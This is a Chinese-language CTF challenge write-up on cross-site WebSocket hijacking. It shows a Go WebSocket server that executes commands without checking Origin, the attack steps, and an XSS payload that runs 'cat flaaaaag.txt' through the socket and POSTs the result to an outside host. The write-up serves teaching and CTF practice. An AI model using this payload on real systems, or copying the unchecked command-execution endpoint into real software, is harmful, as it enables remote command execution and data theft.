


# Cross Site WebSocket Hijacking(CSWSH)

参考ipython notebook的[CVE-2014-3429](http://lambdaops.com/cross-origin-websocket-hijacking-of-ipython/)，未验证origin导致存在跨站websocket劫持。

## 描述

“grollia的websocket真好用，一句话 `conn, _ := websocket.Upgrade(ctx.Resp, ctx.Req, ctx.Resp.Header(), 1024, 1024)`就建好了，我也可以搭个IGo NoteBook啦！” —— 刚学Golang的小明

```go
type msg struct {
    Cmd string `json:"cmd"`
}

func main() {
    app := sweetygo.New("./", nil)
    app.GET("/ws", ws)
    app.RunServer(":8002")
}

func ws(ctx *sweetygo.Context) {
    conn, _ := websocket.Upgrade(ctx.Resp, ctx.Req, ctx.Resp.Header(), 1024, 1024)
    for {
        m := msg{}
        err := conn.ReadJSON(&m)
        if err != nil {
            fmt.Println("Error reading json.", err)
            break
        }

        res := exec(m.Cmd)
        fmt.Println(res)
        if err = conn.WriteJSON(res); err != nil {
            fmt.Println(err)
            break
        }
    }
}
```

## 分析

博客（跳板机）监听0.0.0.0:8001，存在存储型xss；

IGo NoteBook（本来Go的在线执行叫Go Playground，叫这个名很明显提示去联想IPython Notebook）监听127.0.0.1:8002，WebSocket命令执行，无Origin验证(http://www.gorillatoolkit.org/pkg/websocket)；



bot在本机上故可以访问到IGo NoteBook(运行bot需要headless-chrome或者你直接改cookie自己登录)。

## 步骤

1. xss跳板机（小明的博客）

2. 跨站劫持websocket（有选手读到了所有人的Payload，是我的锅，js放的太松了）

3. 执行命令读flag

## Payload

```javascript
<script>
var socket = new WebSocket("ws://127.0.0.1:8002/ws"); socket.onopen = function(e) {socket.send(JSON.stringify({cmd:"cat flaaaaag.txt"}))};socket.onmessage = function (e) {$.ajax({type: "POST",url: "//amyang.xyz:8003", data: JSON.parse(e.data), dataType: "JSON",});};
</script>
```



## 部署

安装mysql，改server.go数据库配置然后`go run server.go`就ok了